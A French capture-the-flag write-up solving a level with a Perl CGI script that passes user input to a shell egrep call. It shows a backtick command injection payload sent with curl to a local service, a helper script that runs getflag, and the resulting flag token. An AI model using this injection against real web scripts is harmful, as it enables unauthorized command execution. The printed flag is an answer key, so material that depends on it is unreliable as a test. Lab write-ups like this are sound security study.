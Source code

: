 Au login nous voyons un fichier `level12.pl` qui est un script perl.

```perl
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
``` 
Nous voyons que le script utilise la fonction `egrep` pour rechercher des lignes dans le fichier `/tmp/xd`.

Il attend un argument x et y
x est transformer en majuscule, il est donc impossible d'envoyer la commande directement

Notre idée est de créer un fichier avec un nom en majuscule pour etre reconnu et lu par egrep.

nous creons un fichier dans /tmp/TEST  dans lequel nous mettons la commande suivante:

```vim /tmp/TEST
getflag > /tmp/file
```
nous donnons les droits d'execution au fichier
```bash
chmod +x /tmp/TEST
```
Nous allons executer le curl du script pearl :
```bash
curl 'http://localhost:4646/?x="`/*/TEST`"'
```
Nous allons lire le fichier `/tmp/file` pour obtenir le flag
```bash
cat /tmp/file`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Nous avons le flag `g1qKMiRpXf53AWhDaU7FEkczr`